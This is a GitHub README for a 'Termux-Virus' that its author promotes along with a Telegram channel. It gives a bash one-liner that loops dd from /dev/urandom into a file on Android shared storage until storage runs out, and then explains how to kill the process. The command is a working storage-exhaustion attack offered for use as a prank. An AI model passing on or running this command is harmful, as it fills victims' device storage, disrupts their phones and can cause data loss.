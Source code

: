 # Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.


## 🛑 HOW TO STOP IT 🛑


You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.

2. **Using the `kill` Command**:
   - Open another terminal session.
   - Run the command to find the process ID (PID):
     ```bash
     ps aux | grep dd
     ```
   - Identify the PID of the `dd` process.
   - Run the following command to kill the process:
     ```bash
     kill <PID>
     ```


💎 **Made By**: @SG_Modder1
